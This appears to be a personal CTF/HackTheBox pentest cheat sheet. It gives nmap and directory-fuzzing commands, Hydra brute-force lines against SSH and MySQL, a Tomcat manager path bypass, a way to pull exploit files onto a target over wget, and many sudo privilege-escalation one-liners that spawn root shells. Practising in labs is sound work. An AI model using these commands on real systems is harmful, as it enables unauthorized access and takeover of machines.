 # Hackthebox
- default page ```/robots.txt``` ```/secret.txt```
- ```find / -name local.txt 2> /dev/null```
- ``` find -type d -name ".*" 2>/dev/null``` it will check hidden directories.
- [Reverse_Shell_Script](https://revshells.com)

- [Nmap](#nmap)
- [BurpSuite](#burp)
- [Gobuster](#gobuster)
- [FFUF](#ffuf)
- [Privilege escalation](#privilegeescalation)
- [Mysql](#mysql)
- [Hydra](#hydra) - Brute force attack on ssh
- [FTP](#ftp) 
- [Cewl](#cewl) - It is use to create a worldlist using website link

- ## Nmap <a name="nmap"></a>
- ```nmap -sC -sV -vv -oA nmap/report.txt <ip>```
- ```sudo nmap -Pn -A -p- -T4 <ip> > nmap.txt```
- [Squid](https://github.com/aancw/spose.git) Pivoting Open Port Scanner
  - Detecting open port behind squid proxy for CTF and pentest purpose using http proxy method. Only for Python 3 version.
  - ```python3 spose.py --proxy http://192.168.208.189:3128 --target 192.168.208.189```
  - if you detect new port for example: 8080 then you need to config your proxy in firefox set ```HTTP proxy 192.168.208.189``` and ```port 3128```
  - then only you can viste the website http://192.168.208.189:8080

- ## Burp Suite <a name="burp"></a>
- use ```/manager/html``` or ```/..;/manager/html``` in the middel of ```GET/ HTTP/1.1```
  - so it will like this ```GET/ /..;/manager/html HTTP/1.1```
  - whenever you see JSESSIONID=.... use this.
 
- use ```[]==``` for the password if you don't know the pass 
 
- ## Gobuster <a name="gobuster"></a>
- ```gobuster dir -u <url> -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt```

- ## FFUF <a name="ffuf"></a>
- FFUF is used to filter the invalid pages 
- ```ffuf -u <url>/FUZZ -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt```
- ```ffuf -u <url>/FUZZ -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -r -fs 27200```
  - if you are getting the size same of all use filter size and give the size there.
 
- ## Privilege escalation <a name="privilegeescalation"></a>
- ```python3 -c 'import os; os.system("/bin/bash")'```
- ```find /  -perm -u=s -type f 2>/dev/null``` to see the permission```
- Use ```linpeas``` if you are not getting any escalation
  - download the script from the github
- If It was running on Linux Kernel 4.4.0–31-generic and Ubuntu 14.04.5 LTS. use below command
  - ```wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh```
  - ```chmod +x linux-exploit-suggester.sh``` and ```./linux-exploit-suggester.sh```
  - you will get some CVE, select any one CVE in that download URL will be there using that link you can download scripts
  - ```wget (download URL in CVE)``` download the file in your system
  - run ```sudo python -m http.server 80```
  - download the file in the target system ```wget http://<myip>/<filename>```
  - example: wget http://192.168.45.161/root.cpp
 
  
 - ```bash -p```
   
- if you find ```/usr/bin/python2.7``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'```
 
- if you find ```/usr/bin/gbd``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit```
 

- if you find ```/usr/bin/pkexec``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo pkexec /bin/bash```

- if you find ```/usr/bin/mtr``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```LFILE=/root/proof.txt```
  - ```sudo mtr --raw -F "$LFILE"```

- if you find ```/usr/bin/time``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo /usr/bin/time /bin/bash```

- if you find ```(ALL : ALL) /bin/nice /notes/*``` in ```sudo -l```
  - it shows that you can run all the files in the /notes directory with /bin/nice binary.
  - so create a script letsgetroot.sh which executes /bin/bash and gave the necessary permissions.
  - ```echo "/bin/bash" >> letsgetroot.sh``` save the file in any directory
  - ```sudo /bin/nice /notes/../home/user/letsgetroot.sh``` it will give the root access.


- if you find ```(ALL : ALL) NOPASSWD: /usr/bin/perl``` in ```sudo -l```
  - then use the below command it will give you the root privilege
  - ```sudo perl -e 'exec "/bin/bash";'```

- ## Mysql <a name="mysql"></a>
- ```mysql -u root -p -h $ip```

- ## Hydra <a name="hydra"></a>
- ssh renu@127.0.0.1
- if you don't know the password do brute force attack. replace username with ```renu``` and ipaddress with ```127.0.01```
- ```hydra -l <username> -P /usr/share/wordlists/rockyou.txt <ipaddress> ssh -t 50```
- ```hydra -L users.txt -P passwords.txt ssh://192.168.245.48 -t 4 > hydra.txt```
- ```hydra -l root -P /usr/share/wordlists/rockyou.txt $ip mysql```


- ## FTP <a name="ftp"></a>
- ftp <ip>
  - user:anonymous
  - pass:
  - 230 Login successful
  - to upload a file use ```put <filename>```
  - to download a file use ```get <filename>```

- ## Cewl <a name="cewl"></a>
- ```cewl -w passwords.txt http://192.168.245.48:1898/?q=node/1```
